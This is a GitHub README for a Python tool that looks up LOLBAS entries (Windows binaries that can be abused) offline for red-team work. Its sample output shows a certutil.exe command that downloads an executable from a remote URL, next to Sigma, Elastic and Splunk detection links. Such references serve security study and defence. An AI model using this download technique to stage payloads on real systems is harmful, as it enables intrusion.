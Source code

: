 ![Image](https://github.com/user-attachments/assets/cd78bde6-e3ea-462d-9402-f1c6dc9ef408)

## Description
This simple Python script uses a CVS from [LOLBAS Project](https://lolbas-project.github.io/) to get information about LOLBins & LOLScripts conveniently in the terminal and offline, for Red Team purposes

## What is LOLBAS
As they themselves identify their project:

The goal of the LOLBAS project is to document all binaries, scripts and libraries that can be used for Living Off The Land techniques.

A LOLBin/Lib/Script must:

- Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft.
- Have extra "unexpected" functionality. It is not interesting to document intended use cases.
    - Exceptions are application whitelisting bypasses.
- Have functionality that would be useful to an APT or red team.

Summary: These are "native" binaries of MS(Windows) based systems that allow from their functionalities to be exploited for cybersecurity purposes.

## Install
```
git clone https://github.com/D4nex/lolbas-info/
cd lolbas-info
pip install colorama
```

## Usage
```
python3 lolbasinfo.py -h
```
![lolbasimage](https://github.com/user-attachments/assets/c1313ed5-615b-4f49-8a96-8514a592f63d)

```
python3 lolbasinfo.py -l
```
List all available LOLBAS included in the cvs to get your information.

```
python3 lolbasinfo.py -lol <lolbin/lolscript>
```
Get information about the selected LOLBAS.
```console
d4nex@pwn:~$ python3 lolbasinfo.py -lol Certutil.exe
      __        __        __             ___  __
|    /  \ |    |__)  /\  /__`    | |\ | |__  /  \
|___ \__/ |___ |__) /~~\ .__/    | | \| |    \__/
                      author: D4nex


[+] Filename: Certutil.exe
[+] Description: Windows binary used for handling certificates
        >_ Command: certutil.exe -urlcache -split -f {REMOTEURL:.exe} {PATH:.exe}
        >_ Command Description: Download and save executable to disk in the current folder.
        >_ Command Usecase: Download file from Internet
        >_ Command Category: [Download]
        >_ Command Privileges: [User]
        >_ Operating System: [Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11]
        *_ Paths: [C:\Windows\System32\certutil.exe, C:\Windows\SysWOW64\certutil.exe]
        !_ Detections: (Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_download.yml, Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_encode.yml, Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_decode.yml, Elastic: https://github.com/elastic/detection-rules/blob/4a11ef9514938e7a7e32cf5f379e975cebf5aed3/rules/windows/defense_evasion_suspicious_certutil_commands.toml, Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/command_and_control_certutil_network_connection.toml, Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_urlcache_and_split_arguments.yml, Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_verifyctl_and_split_arguments.yml, Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_with_decode_argument.yml, IOC: Certutil.exe creating new files on disk, IOC: Useragent Microsoft-CryptoAPI/10.0, IOC: Useragent CertUtil URL Agent)
        *_ Resources: https://twitter.com/Moriarty_Meng/status/984380793383370752, https://twitter.com/mattifestation/status/620107926288515072, https://twitter.com/egre55/status/1087685529016193025
        *_ URL: https://lolbas-project.github.io/lolbas/Binaries/Certutil/
        *_ Tags: []
```

## Issues
- Please note that this script was developed for personal use (automation and convenience) so it may contain errors.
- 错误和异常处理
- 面向对象编程，优化结构
- 对代码的评论
